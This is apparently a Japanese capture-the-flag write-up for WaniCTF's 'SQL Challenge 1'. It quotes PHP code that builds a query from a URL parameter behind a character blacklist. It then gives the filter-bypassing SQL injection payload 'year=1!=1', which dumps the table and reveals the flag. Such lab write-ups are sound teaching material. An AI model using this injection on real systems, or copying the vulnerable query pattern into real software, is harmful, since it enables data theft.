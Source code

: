 # SQL Challenge 1:Web:102pts
問題ページ： [https://sql1.wanictf.org/index.php?year=2011](https://sql1.wanictf.org/index.php?year=2011)  
今まで見たアニメのリストをデータベースに登録したよ。間違えて秘密の情報（FLAG）もデータベースに登録しちゃったけど、たぶん誰にも見られないし大丈夫だよね。  
(Hint)  
SQL injectionの問題です。  
URLの「year=」の後に続く数字(年号)をSQL injectionを起こすような文字列に変更するとFLAGが表示されます。  
一部使えない文字もあるのでソースコード(index.php)を参考に考えてみてください。  
必要に応じてデータベースのスキーマ(1_schema.sql)も参考にしてください。  
(注意)  
sql-chall-1.zipは問題を解くために必須の情報ではなく、docker-composeを利用してローカルで問題環境を再現するためのものです。  
興味のある方は利用してみてください。  
[index.php](index.php)　　　　[1_schema.sql](1_schema.sql)　　　　[sql-chall-1.zip](sql-chall-1.zip)  

# Solution
URLにアクセするとアニメのリストが表示される。  
SQL_Challenge_1  
[site.png](site/site.png)  
index.phpを見ると以下の部分でSQLインジェクションが可能であることに気付く。  
```php
~~~
                    //urlの"year="の後に入力した文字列を$yearに入れる。
                    $year = $_GET["year"];

                    //一部の文字は利用出来ません。以下の文字を使わずにFLAGを手に入れてください。
                    if (preg_match('/\s/', $year))
                        exit('危険を感知'); //スペース禁止
                    if (preg_match('/[\']/', $year))
                        exit('危険を感知'); //シングルクォート禁止
                    if (preg_match('/[\/\\\\]/', $year))
                        exit('危険を感知'); //スラッシュとバックスラッシュ禁止
                    if (preg_match('/[\|]/', $year))
                        exit('危険を感知'); //バーティカルバー禁止                    

                    //クエリを作成する。
                    $query = "SELECT * FROM anime WHERE years =$year";
~~~
```
禁止文字以外を使ってTrueにしてやればよい。  
`1!=1`により常にTrueとすることができる。  
`https://sql1.wanictf.org/index.php?year=1!=1`で全データが列挙され、その中にflagがあった。  
flag  
[flag.png](site/flag.png)  

## FLAG{53cur3_5ql_a283b4dffe}